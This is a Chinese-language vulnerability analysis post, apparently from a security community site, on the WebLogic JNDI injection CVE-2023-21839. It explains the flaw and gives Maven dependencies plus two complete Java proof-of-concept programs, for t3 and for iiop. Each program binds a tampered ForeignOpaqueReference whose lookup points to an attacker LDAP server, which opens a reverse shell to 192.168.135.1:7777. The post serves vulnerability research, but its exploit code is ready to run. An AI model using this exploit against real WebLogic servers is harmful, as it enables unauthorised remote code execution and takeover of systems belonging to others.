




# CVE-2023-21839分析 - 先知社区

CVE-2023-21839分析

* * *

参考：

[https://baijiahao.baidu.com/s?id=1758317868693403050](https://baijiahao.baidu.com/s?id=1758317868693403050)

CVE-2023-21839是一个weblogic的JNDI注入漏洞。

> 由于Weblogic t3/iiop协议支持远程绑定对象bind到服务端，并且可以通过lookup查看，当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在retVal = context.lookup(this.remoteJNDIName)实现，故可以通过rmi/ldap远程协议进行远程命令执行。

## 远程绑定对象

weblogic的t3与iiop协议都支持使用JNDI来远程绑定对象并lookup查询，代码如下：

```plain
// 创建远程对象
MyRemoteObject remoteObject = new MyRemoteObject();
// 获取上下文
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");
Context ctx = new InitialContext(env);
// 绑定对象到JNDI
ctx.rebind("myRemoteObject", remoteObject);
// 远程查找对象
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

如果想通过iiop协议绑定则把代码中的t3换成iiop即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的MyRemoteObject需要实现Serializable接口。

CVE-2020-2551就是利用这种方式，客户端向服务端发送remoteObject之后，服务端对其进行反序列化，导致造成反序列化漏洞。

## OpaqueReference

weblogic中的OpaqueReference是一个接口：

[](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313170301708.png)

当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。

## 漏洞分析

分析环境用的是weblogic 10.3.6.0

漏洞的触发点在ForeignOpaqueReference.getReferent()

[](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171008938.png)

ForeignOpaqueReference继承自OpaqueReference，前面说过，当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。所以，如果远程绑定了ForeignOpaqueReference对象，在lookup查询该对象时，就会调用ForeignOpaqueReference.getReferent()，所以这里我们只要控制var4与this.remoteJNDIName就能造成jndi注入。

this.remoteJNDIName是一个private的属性，可以通过反射的方式进行修改。

[](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171528816.png)

var4的话，只要this.jndiEnvironment有值，就用this.jndiEnvironment的值对InitialContext进行初始化，this.jndiEnvironment也可以使用反射的方式进行赋值。

所以poc如下：

依赖：

```plain
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>wlfullclient</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>spring</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>logging</artifactId>
    <version>0.1</version>
</dependency>
```

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://192.168.135.129:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

[](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313174359085.png)

如果通过iiop协议绑定及查询的话，需要解决iiop的nat网络问题，需要手动设置IOPProfile.IP和IOPProfile.PORT，完整poc如下：

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "iiop://192.168.135.129:7001"; // 目标机器
        long TIME_OUT = 15000L; // 超时时间
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        env1.put("weblogic.jndi.requestTimeout", TIME_OUT + ""); // 超时时间
        IOPProfile.IP = "192.168.135.129"; // 解决iiop协议的nat网络问题
        IOPProfile.PORT = 7001; // 解决iiop协议的nat网络问题
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

## 总结

CVE-2023-21839是一个weblogic的JNDI注入漏洞。它与CVE-2020-2551有些相似，但又不同：

相同点：都利用了weblogic的远程jndi绑定对象机制，最终都造成了jndi注入

不同点：CVE-2020-2551使用的是iiop协议，利用的是RMI-IIOP传输数据过程中的序列化与反序列化触发漏洞类与漏洞函数；而CVE-2023-21839是通过远程绑定恶意对象后再对其进行查询来调用漏洞函数，使用t3或者iiop协议均可。
